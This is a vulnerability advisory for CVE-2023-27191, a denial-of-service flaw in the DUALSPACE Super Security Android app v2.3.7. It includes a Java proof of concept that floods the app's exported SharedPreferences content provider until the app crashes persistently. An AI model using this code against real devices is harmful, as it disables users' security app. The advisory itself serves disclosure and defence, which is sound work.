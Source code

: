 ## Denial of Service exists in Super Secuirty（CVE-2023-27191）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Super Security  (com.ludashi.security)

Version：2.3.7

Download link：https://apkpure.com/cn/super-security-virus-cleaner/com.ludashi.security

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE Super Secuirty v.2.3.7 allows an attacker to cause a denial of service via the SharedPreference files.

Additional information：The Super Security app is a security application that offers several security-related functions. Upon opening the app, it loads the SharedPreference files into memory. If a malicious app injects a large amount of data into these files, the Super Security app will load excessive data into memory, which can trigger an OOM error and cause the app to crash. Even worse, simply restarting the app will not fix the security issue, as the injected data is persistent in the SharedPreference files. In practice, this means that the Super Security app becomes unable to launch successfully.

poc：

```java
public void attack() {
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.security.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
  	While(true){
      contentValues.put("file_name","__default__");
    	contentValues.put("type",4);
    	contentValues.put("key",RandomString);
    	contentValues.put("value",RandomString);
    	contentResolver.insert(uri, contentValues); 
    }
}
```



